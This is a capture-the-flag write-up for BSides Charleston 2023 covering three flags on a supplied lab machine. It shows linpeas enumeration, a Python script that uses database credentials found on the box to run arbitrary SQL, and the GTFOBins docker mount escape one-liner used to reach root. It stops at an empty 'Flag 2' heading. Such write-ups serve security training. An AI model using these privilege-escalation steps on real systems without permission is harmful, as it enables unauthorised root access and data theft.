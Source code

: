 # BSIDES-CHARLESTON-2023-writeup

This is my writeup for the BSides Charleston CTF that took place on 11-4-2023. My team (l0wg4ng) and I were tasked to obtain 3 flags from a target machine which we had to SSH into. There was no initial foothold required as they supplied us with the SSH credentials. NOTE: The first flag had a hint before the CTF which mentioned it is found in a mysql database.

## Enumeration

After logging into the machine via SSH, I transferred over linpeas.sh via scp to check how I could privesc as soon as I got in.

```
scp linpeas.sh kingpwn@10.10.10.204:/tmp/linpeas.sh 
```

After running linpeas, I noticed that it picks up docker as a possible privesc point. I decide to focus on that later.

![1-linpeas-output.png](1-linpeas-output.png)

## Flag 1

I run `sudo -l` and notice that the current user can run tickets.py without a password. 

![2-sudo-l.png](2-sudo-l.png)

There is also a python script in the home directory which has this script that has a username and password. I also remember there being a mysql db that we had to access from the hints.

```
import mysql.connector

def create_ticket(title, description):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'

    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database="ticketDB"
    )

    cursor = connection.cursor()

    
    flag = input("Enter A Severity Flag: High or Low: ")

    ticket = (title, description, flag)
    query = "INSERT INTO tickets (title, description, flag) VALUES (%s, %s, %s)"

    cursor.execute(query, ticket)
    connection.commit()

    print(f"Ticket Created: {title}")
    cursor.close()
    connection.close()

if __name__ == "__main__":
    title = input("Enter Ticket Title: ")
    description = input("Enter Ticket Description: ")
    create_ticket(title, description)

```

When trying to access the mysqldb with the creds above, I get an error that I can't run mysql on this machine. My teammate was able to create a python script that would be able to connect to the mysqldb and allow us to get the first flag.

The working script is below:
```
import mysql.connector

def query_database(query):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'
    database = 'ticketDB'  # Replace with your actual database name

    # Establish a database connection
    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database=database
    )

    cursor = connection.cursor()

    # Execute the query
    try:
        cursor.execute(query)
        if cursor.with_rows:
            # Fetch the results and print them
            results = cursor.fetchall()
            for row in results:
                print(row)
        else:
            print("Query executed successfully")
    except mysql.connector.Error as err:
        print(f"Error: {err}")

    # Close the cursor and connection
    cursor.close()
    connection.close()

if __name__ == "__main__":
    while True:
        query = input("Enter your SQL query (or type 'exit' to quit): ")
        if query.lower() == 'exit':
            break
        query_database(query)

```

We named the script db.py and executed it, and were able to obtain the first flag.

![3-first-flag.png](3-first-flag.png)

## Flag 3

I actually found the 3rd flag before getting the 2nd one. So I am jumping ahead for now. Remembering the local enumeration I did before with linpeas, there is a potential docker escape privesc that I can run here.

I checked GTFObins and found this one:
https://gtfobins.github.io/gtfobins/docker/

I then ran this command to get the 3rd flag:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![4-docker-privesc.png](4-docker-privesc.png)

I confirmed that I can read the flag for the root user.

![5-third-flag.png](5-third-flag.png)


## Flag 2
